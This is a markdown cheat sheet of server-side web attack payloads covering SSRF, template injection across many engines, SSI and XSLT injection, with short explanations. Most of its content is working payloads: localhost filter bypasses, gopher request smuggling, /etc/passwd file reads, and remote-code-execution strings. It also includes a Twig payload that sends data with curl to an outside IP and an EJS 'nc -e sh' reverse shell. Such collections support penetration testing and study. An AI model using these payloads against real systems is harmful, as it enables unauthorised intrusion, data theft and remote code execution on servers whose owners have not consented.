

# Server Side Attacks 

Server-side attacks target the application or service provided by a server, whereas a client-side attack takes place at the client's machine, not the server itself.
For instance, vulnerabilities like Cross-Site Scripting (XSS) target the web browser, i.e., the client. On the other hand, server-side attacks target the web server.

- Server-Side Request Forgery (SSRF)
- Server-Side Template Injection (SSTI)
- Server-Side Includes (SSI) Injection
- eXtensible Stylesheet Language Transformations (XSLT) Server-Side Injection

## Server Side Request Forgery

Server-side request forgery vulnerability can be identified in applications that use features that make some type of HTTP request or other request based on user input.

````
http://127.0.0.1
http://127.0.0.1:<FUZZ_PORT>
http://<IP_Internal_Network>
````

**Local File Inclusion (LFI)**
````
file:///etc/passwd
````
**Gopher Protocol**
````
gopher://[host]:[port]/[type][selector]

gopher://<domain>:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20<domain>%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmi

gopher://backend:80/_POST%20/login%20HTTP/1.1%0D%0AHost%3A%20backend%0D%0AContent-Type%3A%20application/x-www-form-urlencoded%0D%0AContent-Length%3A%2041%0D%0A%0D%0Ausername%3Dwhite.rabbit%26password%3Ddontbelate%0D%0A
````
- https://github.com/fuzzlove/GopherSSRF
- https://github.com/tarunkant/Gopherus
````
$ python2.7 gopherus.py --exploit smtp
````

**Filter**

Other Representations of Localhost
````
http://localhost
http://127.0.0.1
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
http://0/
http://127.1
http://127.0.1
http://2130706433
http://0177.0.0.1
http://[::]
http://[0000::1]
http://[0:0:0:0:0:ffff:127.0.0.1]
http://[::ffff:127.0.0.1]
````

**Bypass using Redirects**

- https://httpbin.org/
- https://github.com/Horlad/r3dir
````
https://httpbin.org/redirect-to?url=http://localhost
https://307.r3dir.me/--to/?url=http://localhost
````
**HTML - XSS**
````
<script>
x=new XMLHttpRequest;
x.onload=function(){  
document.write(this.responseText)};
x.open("GET","file:///etc/passwd");
x.send();
</script>
````

## Server Side Template Injection



### Jinja2 (Python)

Jinja is a template engine commonly used in Python web frameworks such as Flask or Django. 
Testing: {{5*"5"}}

**Information Disclosure**
````
{{ config.items() }}
{{ self.__init__.__globals__.__builtins__ }}
````
**Read Files**
````
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
````
**Remote Code Execution**

Example
````
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
`````

### Mako (Python) 

**Remote Code Execution**

Example
````
<%
import os
x=os.popen('cat file.txt').read()
%>
${x}
````

### Twig (PHP

Testing:  {{7*7}}

**Information Disclosure**
````
{{ _self }}
{{-<Variable_Name>-}}
````
**Read Files**
````
{{ "/etc/passwd"|file_excerpt(1,-1) }}
````

**Remote Code Execution**

Example
````
{{ ['id'] | filter('system') }}
{{[0]|reduce('system','whoami')}}
{{['cat${IFS}/etc/passwd']|filter('system')}}
{{ ["id"]|map("system")|join }}
{{ {"x":"id"}|filter("system")|join }}
````

Blind SSTI Twig
````

{{[0]|reduce('system','curl http://192.168.49.51/?exfil=' ~ exfil)}}



{{[0]|reduce('system','whoami')}}


{{[0]|reduce('system','curl http://192.168.49.51/?exfil=' ~ exfil)}}
````

### Apache Freemarker (Java)

Extension: .ftl
Testing: ${7*7}
Variables: ${<Variable_Name>}

**Remote Code Execution**
````
${"freemarker.template.utility.Execute"?new()("whoami")}
<#assign ex = "freemarker.template.utility.Execute"?new()("whoami")}"
````

### Pug (Nodejs)

Testing: #{"7"*7} 
Variable: p #{<Variable_Name>}

**Remote Code Execution**
````
- var require = global.process.mainModule.require
= require('child_process').spawnSync('whoami').stdout

- var require = global.process.mainModule.require
= require('child_process').spawnSync('cat', ["/root/flag.txt"]).stdout

- var require = global.process.mainModule.require
= require('child_process').spawnSync('ls', ["-la", "/"]).stdout

global.process.mainModule.require('child_process').spawnSync('ls', ["-la", "/"]).stdout
````

### EJS (Nodejs)

**Remote Code Execution**
````
<%= global['pro'+'cess'].mainModule['re'+'quire']('ch'+'ild_'+'proc'+'ess').spawnSync('id').stdout %>

global.process.mainModule.require('child_process').spawnSync('ls', ["-la", "/"]).stdout

process.mainModule.require('child_process').execSync('nc -e sh 127.0.0.1 1337')
````

### Mustache and Handlebars

**Read Files** 
````
{{read "/etc/passwd"}}
````

**Remote Code Execution**
````
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return global.process.mainModule.require('child_process').execSync('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
````

https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html?highlight=handlebar#handlebars-nodejs
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection

## SSI Injection

Server-Side Includes (SSI) is a technology web applications use to create dynamic content on HTML pages. SSI is supported by many popular web servers such as Apache and IIS. The use of SSI can often be inferred from the file extension. Typical file extensions include .shtml, .shtm, and .stm. However, web servers can be configured to support SSI directives in arbitrary file extensions.

SSI utilizes directives to add dynamically generated content to a static HTML page. These directives consist of the following components:
- name: the directive's name
- parameter name: one or more parameters
- value: one or more parameter values
````
<!--#name param1="value1" param2="value" -->
<!--#printenv -->
<!--#config errmsg="Error!" -->
<!--#echo var="DOCUMENT_NAME" var="DATE_LOCAL" -->
<!--#exec cmd="whoami" -->
<!--#include virtual="index.html" -->
````

## XSLT Injection

eXtensible Stylesheet Language Transformation (XSLT) is a language enabling the transformation of XML documents. For instance, it can select specific nodes from an XML document and change the XML structure.
XSLT can be used to define a data format which is subsequently enriched with data from the XML document. XSLT data is structured similarly to XML. However, it contains XSL elements within nodes prefixed with the xsl-prefix. The following are some commonly used XSL elements:
- <xsl:template>: This element indicates an XSL template. It can contain a match attribute that contains a path in the XML document that the template applies to
- <xsl:value-of>: This element extracts the value of the XML node specified in the select attribute
- <xsl:for-each>: This element enables looping over all XML nodes specified in the select attribute

Example
````
<?xml version="1.0"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
	<xsl:template match="/fruits">
		Here are all the fruits:
		<xsl:for-each select="fruit">
			<xsl:value-of select="name"/> (<xsl:value-of select="color"/>)
		</xsl:for-each>
	</xsl:template>
</xsl:stylesheet>
````

### Exploitation
````
Version: <xsl:value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
<br/>
Product Version: <xsl:value-of select="system-property('xsl:product-version')" />
````
**Local File Inclusion**
````
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />
````
**Remote Code Execution**
````
<xsl:value-of select="php:function('system','id')" />
````
